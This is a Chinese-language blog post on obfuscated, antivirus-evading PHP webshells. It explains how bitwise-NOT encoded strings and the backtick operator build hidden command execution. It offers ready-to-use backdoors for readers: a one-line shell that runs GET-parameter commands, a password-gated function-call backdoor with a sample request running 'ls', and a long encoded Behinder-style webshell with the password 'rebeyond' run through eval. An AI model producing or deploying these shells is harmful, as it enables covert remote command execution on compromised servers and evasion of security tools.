







# 过D小技巧--DLC

发完文章后发现反响好像还行，就想着要不再整点压箱底的东西(继续水一篇)，在上班摸鱼之时水篇笔记于是就有了此`DLC`。下面就简单地介绍一下该小技巧的原理。

https://twitter.com/terjanq/status/1258451658645913601

# 变形免杀马



使用非字母数字字符编写的微型反向shell

大伙们肯定很好奇，这什么玩意？PHP害能解析这玩意？听我慢慢讲解

我进行了稍微的变形方便大家使用
```php
<?=`{${~"\xa0\xb8\xba\xab"}[1]}`;
//1=whoami


<?=$_GET[p]==_&&$_GET[f]($GET_[c])

35 bytes PHP backdoor protected by a password, supports arbitrary function calls.

/backdoored.php?p=_&f=system&c=ls
```


# php的奇怪解析特性

PHP的奇怪函数：

1. PHP取反

`~` 在 {} 中执行了取反操作，所以 `~"\xa0\xb8\xba\xab"` 取反相当于 十六进制的
`$_GET`，从而拼接出了函数并进行get读取。





后面的一串字符就是取反后的hex，我们对字符串进行处理后康康能不能正常输出。

> 悄咪咪给自家项目打个广告：主要实现功能在加解密和编码这块，挺好用的。
https://github.com/ffffffff0x/BerylEnigma

咱使用eval调用该取反后的16进制文件。



```php
<?php
$s = "\x8f\x97\x8f\x96\x91\x99\x90\xd7\xd6\xc4";
eval(~$s)
?>
```

函数成功执行。这就很好解释这种取操作的关系

```php
${~"\xa0\xb8\xba\xab"}["1"] => ${_GET}["1"] => $_GET["1"]
```

2. 执行运算符

PHP 支持一个执行运算符：反引号`（``）`。

注意这不是单引号！PHP 会尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回：
例如：

```php
<?php
$cmd = `whoami`;
echo "<pre>$cmd</pre>";
?>
```


使用执行运算符 `(``)` 的效果与函数 shell_exec() 相同。所以继续解析代码

```php
`{$_GET["1"]}` => shell_exec($_GET["1"])
```

组合后就变成了上文中的简短免杀马。

我就尝试用这种方法随便做了个绕过去做个冰蝎的变形马：



```php
<?php
// pass=rebeyond
$a = ~"\xbf\x9a\x8d\x8d\x90\x8d\xa0\x8d\x9a\x8f\x90\x8d\x8b\x96\x91\x98\xd7\xcf\xd6\xc4\x8c\x9a\x8c\x8c\x96\x90\x91\xa0\x8c\x8b\x9e\x8d\x8b\xd7\xd6\xc4\xdf\xdf\xdf\xdf\xdb\x94\x9a\x86\xc2\xdd\x9a\xcb\xca\x9a\xcc\xcd\xc6\x99\x9a\x9d\xca\x9b\xc6\xcd\xca\x9d\xdd\xc4\xdb\xa0\xac\xba\xac\xac\xb6\xb0\xb1\xa4\xd8\x94\xd8\xa2\xc2\xdb\x94\x9a\x86\xc4\xdb\x8f\x90\x8c\x8b\xc2\x99\x96\x93\x9a\xa0\x98\x9a\x8b\xa0\x9c\x90\x91\x8b\x9a\x91\x8b\x8c\xd7\xdd\x8f\x97\x8f\xc5\xd0\xd0\x96\x91\x8f\x8a\x8b\xdd\xd6\xc4\x96\x99\xd7\xde\x9a\x87\x8b\x9a\x91\x8c\x96\x90\x91\xa0\x93\x90\x9e\x9b\x9a\x9b\xd7\xd8\x90\x8f\x9a\x91\x8c\x8c\x93\xd8\xd6\xd6\x84\xdb\x8b\xc2\xdd\x9d\x9e\x8c\x9a\xc9\xcb\xa0\xdd\xd1\xdd\x9b\x9a\x9c\x90\x9b\x9a\xdd\xc4\xdb\x8f\x90\x8c\x8b\xc2\xdb\x8b\xd7\xdb\x8f\x90\x8c\x8b\xd1\xdd\xdd\xd6\xc4\x99\x90\x8d\xd7\xdb\x96\xc2\xcf\xc4\xdb\x96\xc3\x8c\x8b\x8d\x93\x9a\x91\xd7\xdb\x8f\x90\x8c\x8b\xd6\xc4\xdb\x96\xd4\xd4\xd6\xdf\x84\xdf\xdf\xdf\xdf\xdf\xdb\x8f\x90\x8c\x8b\xa4\xdb\x96\xa2\xdf\xc2\xdf\xdb\x8f\x90\x8c\x8b\xa4\xdb\x96\xa2\xa1\xdb\x94\x9a\x86\xa4\xdb\x96\xd4\xce\xd9\xce\xca\xa2\xc4\xdf\xdf\xdf\xdf\xdf\x82\x82\x9a\x93\x8c\x9a\x84\xdb\x8f\x90\x8c\x8b\xc2\x90\x8f\x9a\x91\x8c\x8c\x93\xa0\x9b\x9a\x9c\x8d\x86\x8f\x8b\xd7\xdb\x8f\x90\x8c\x8b\xd3\xdf\xdd\xbe\xba\xac\xce\xcd\xc7\xdd\xd3\xdf\xdb\x94\x9a\x86\xd6\xc4\x82\xdf\xdf\xdf\xdf\xdb\x9e\x8d\x8d\xc2\x9a\x87\x8f\x93\x90\x9b\x9a\xd7\xd8\x83\xd8\xd3\xdb\x8f\x90\x8c\x8b\xd6\xc4\xdf\xdf\xdf\xdf\xdb\x99\x8a\x91\x9c\xc2\xdb\x9e\x8d\x8d\xa4\xcf\xa2\xc4\xdf\xdf\xdf\xdf\xdb\x8f\x9e\x8d\x9e\x92\x8c\xc2\xdb\x9e\x8d\x8d\xa4\xce\xa2\xc4\x9c\x93\x9e\x8c\x8c\xdf\xbc\x84\x8f\x8a\x9d\x93\x96\x9c\xdf\x99\x8a\x91\x9c\x8b\x96\x90\x91\xdf\xa0\xa0\x96\x91\x89\x90\x94\x9a\xd7\xdb\x8f\xd6\xdf\x84\x9a\x89\x9e\x93\xd7\xdb\x8f\xd1\xdd\xdd\xd6\xc4\x82\x82\xdf\xdf\xdf\xdf\xbf\x9c\x9e\x93\x93\xa0\x8a\x8c\x9a\x8d\xa0\x99\x8a\x91\x9c\xd7\x91\x9a\x88\xdf\xbc\xd7\xd6\xd3\xdb\x8f\x9e\x8d\x9e\x92\x8c\xd6\xc4";
sprintf("123");
define("Test", "$a",true);
eval(TesT);
```


##  结语

随着PHP8的更新，相信之后PHP会有更多的绕过方法，虽然删了很多bypass的技巧，但是PHP在有漏洞方面肯定不会让人失望的！希望大家可以变得更强！

---

> 本文作者 FFFFFFFF0X-XiDanEr